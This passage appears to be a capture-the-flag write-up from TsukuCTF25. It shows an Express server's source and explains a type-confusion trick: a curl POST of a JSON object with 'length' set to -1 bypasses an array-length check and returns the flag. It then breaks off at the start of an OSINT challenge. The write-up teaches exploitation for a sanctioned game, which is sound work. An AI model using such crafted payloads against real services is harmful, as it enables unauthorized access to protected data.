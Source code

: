 ```
  
app.get("/", (_, res) => {  
  res.send(  
    `How to use -> curl -X POST -d 'array=[1,2,3,4]' http://${HOST}:${PORT}`,  
  );  
});  
  
app.post("/", (req, res) => {  
  const array = req.body.array;  
  res.send(chall(array));  
});  
  
app.listen(PORT, () => {  
  console.log(`Server is running on http://${HOST}:${PORT}`);  
});

Key snippet:

if (array.length < 0) {  
    return res.send(flag);  
}
```

Wait — array.length naturally can’t be less than 0 in normal JavaScript behavior. Unless… we manipulate it.

#### **🛠️ Exploit Idea**

Since JSON.parse parses strings into objects, what if we send an object with a custom length property set to -1?

Let’s test it:

_curl -X POST -d ‘array={“length”:-1}’_ [_http://challs.tsukuctf.org:28888_](http://challs.tsukuctf.org:28888)

Response:

_TsukuCTF25{l4n\_l1n\_lun\_l4n\_l0n}_

Hurray!! We got the flag!!

#### 📚 Takeaway

A classic example of **type confusion** and **prototype property abuse** in web challenges. Remember — whenever you see length checks, think beyond arrays and explore object possibilities.

### 2\. Bark (Casca) | OSINT

![](https://cdn-images-1.medium.com/max/466/1*z18CBW-x7SF5v1Gl4KkE2g.png)

The shell.jpg is here

![](https://cdn-images-1.medium.com/max/569/1*qAIHJU-eDx0wFPL-dcp0Pw.jpeg)
